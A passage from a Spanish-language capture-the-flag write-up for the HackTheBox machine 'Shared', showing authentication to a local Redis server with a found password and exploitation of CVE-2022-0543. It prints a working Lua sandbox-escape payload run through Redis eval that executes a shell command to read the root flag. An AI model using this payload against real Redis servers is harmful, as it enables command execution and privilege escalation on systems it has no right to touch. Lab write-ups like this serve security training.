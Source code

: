 <img src="/writeups/assets/img/Shared-htb/9.png" alt="">

Me conecto. Sin la credencial no podría hacer nada

```null
dan_smith@shared:/tmp$ redis-cli
127.0.0.1:6379> INFO keyspace
NOAUTH Authentication required.
```
 
```null
127.0.0.1:6379> auth F2WHqJUz2WEz=Gqq
OK
```

Es vulnerable al ```CVE-2022-0543```

<img src="/writeups/assets/img/Shared-htb/10.png" alt="">

Puedo ver la segunda flag

```null
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("cat /root/root.txt", "r"); local res = f:read("*a"); f:close(); return res' 0
"640ba35cad6c58f8c74fdc7b38912f63\n"
```
